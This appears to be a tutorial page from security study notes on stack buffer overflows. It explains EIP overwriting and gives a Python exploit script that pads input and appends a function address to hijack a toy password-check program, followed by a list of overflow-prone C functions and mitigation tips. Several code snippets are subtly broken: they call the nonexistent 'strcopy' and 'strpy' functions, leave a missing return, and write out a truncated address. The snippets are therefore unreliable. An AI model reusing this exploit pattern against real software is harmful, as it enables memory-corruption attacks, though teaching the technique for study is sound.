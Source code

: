 ```yaml
---
description: Explanation of address manipulation
---
```


# Buffer Overflow

## How it Works

Buffer overflows are vulnerabilities within programs that can lead to RCE and crashing of whatever program we are running.&#x20;

The term **buffer** is used to refer to any area in memory where more than one piece of data is stored. **Overflow** is when we try to fill more data than the buffer can handle. For example, if we allocate 40 bytes of memory to store 10 integers, with 4 bytes per integer, and we send 11 integers, whatever was in the 4 byte slot after the 10th slot of memory would be overwritten as the 11th integer.

Sometimes, the program would crash totally if given too much to process with a **segmentation fault**.&#x20;

We can analyse this code snippet here:

```c
int main(int argc, char *argv[]){
    argv[1] = (char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char buffer[10];
    strcopy(buffer, argv[1], sizeof(buffer));
    return 0;
}
```

The `buffer` variable is an array that can store up to 10 characters, however we have overflown that with our `strcopy` function because there are more than 10 characters being loaded into it.

Within the stack, this is what the program would store normally:

<figure><img src="../../.gitbook/assets/image (91) (2).png" alt=""><figcaption></figcaption></figure>

Should we overflow the buffer variable, this would **overwrite the EBP and EIP**. The return address of the function thus changes.

<figure><img src="../../.gitbook/assets/image (14) (3) (2).png" alt=""><figcaption></figcaption></figure>

So when the program returns from the function, and the **epilogue** of the function tries to set the return address, it would set it as the string of 'A' instead. Thus, this crashes the program as it cannot return to normal execution flow.&#x20;

### Exploitation

We can analyse another snippet of code to see how **we can manipulate the EIP to return to another address.** Suppose for this case there are no security measures in place.

```cpp
#include <iostream>
#include <cstring>

int bf_overflow(char *str){
    char buffer[10];
    strpy(buffer, str);
    return 0;
}

int good_password(){
    printf("Valid password supplied\n");
}

int main(int argc, char *argv[]){
    int password = 0;
    bf_overflow(argv[1]);
    if (password == 1){
        good_password();
    }
    else {
    printf("Invalid Password\n");
    }
    printf("Quitting\n");
    return 0;
}
```

This bit of code here has a function that would otherwise not be able to be exploited. However, it seems to take an input, seeing as it passes arguments to the function.&#x20;

The buffer in this case is 10 characters, and we first need to find the exact number of characters used to **overwrite the EIP**.&#x20;

First we would need to find the number of characters needed to **crash the program**. For this program, when tested, should take 26 characters before crashing. This means that we need **22 garbage characters to overflow the buffer, and the next 4 would be the EIP itself**.

When we decompile the binary for this program, we get something like this:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

So the `good_password()` function is at `0x00401548`. This means that our payload would be 22 characters and the address of the function appended at the back.

We can write a basic script to automate this.

```python
import sys
import os
payload = "\x41" * 22
payload += "\x48\x15\x40" # take note of endianness! reverse addresses if needed
# most of the time we do not include null bytes (\x00) which can cause corruption of memory
command = "goodpwd.exe %s" %(payload)

os.system(command)
```

When executed, this would overflow the buffer, and print the good password output.&#x20;

## Vulnerable Functions

In C, there are a lot of functions that are vulnerable to buffer overflows. The common occurrence between these functions is that **they do not have input validation or length verification**. Anyone can key in an absurdly long input and force the program to process it, which would allow for BOF to take place.

For example, we can compare the `fgets()` and `gets()` function in C. Both of which take user input and do something with it. Here's some documentation for the functions:

```c
char *fgets(char *str, int n, FILE *stream)
char *gets(char *str)
```

The `fgets()` function takes one `int n` variable, which represents the **length of the input it receives**. `gets()` on the other hand, simply takes a string in without length validation. Because one checks for length, it is **more secure** than the other. `gets()` is rather notorious for buffer overflow exploits, whereas `fgets()` is more secure **but not invulnerable**. It is still exploitable if it is used incorrectly!

Here are a list of functions that I look out for when decompiling binaries to view the code:

```
strcpy
strcat
gets
fgets
scanf
fscanf
vsprintf
printf
memcpy
```

If the length of an input is not validated properly using these functions, it would indicate that it could be vulnerable to BOF as we are able to overflow something and exploit the program.&#x20;

Apart from these functions, when looking out for BOF, we should take note of any **user-controlled input that is not sanitised and passed to a program**. In general, if we see something that isn't checked for length, it could be vulnerable, and **it is not limited to these few functions**.&#x20;

In general, to avoid BOF:

1. Check user input, make sure that the length is validated. If we accept 50 characters, then make sure the length is 50.
2. If user input is passed anywhere, ensure that there are checks in the length of input.
3. Only allow alphanumeric characters. Attackers can sometimes exploit the fact that **only length is being validated and not size**. BOF can (technically) happen using unicode characters, which contain up to 4 bytes per character.&#x20;
